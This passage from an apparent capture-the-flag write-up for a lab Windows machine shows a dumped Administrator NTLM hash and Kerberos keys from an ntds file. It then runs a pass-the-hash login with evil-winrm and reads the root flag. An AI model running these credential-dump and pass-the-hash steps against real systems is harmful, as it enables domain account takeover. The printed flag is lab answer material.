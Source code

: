 ```bash
└─# cat ntds.white | grep Admin          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Administrator:aes256-cts-hmac-sha1-96:dbd84e6cf174af55675b4927ef9127a12aade143018c78fbbe568d394188f21f
Administrator:aes128-cts-hmac-sha1-96:8148b9b39b270c22aaa74476c63ef223
Administrator:des-cbc-md5:5d25a84ac8c229c1
```



横向

```bash
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../desktop/root.txt
4375a629c7c67c8e29db269060c955cb
```


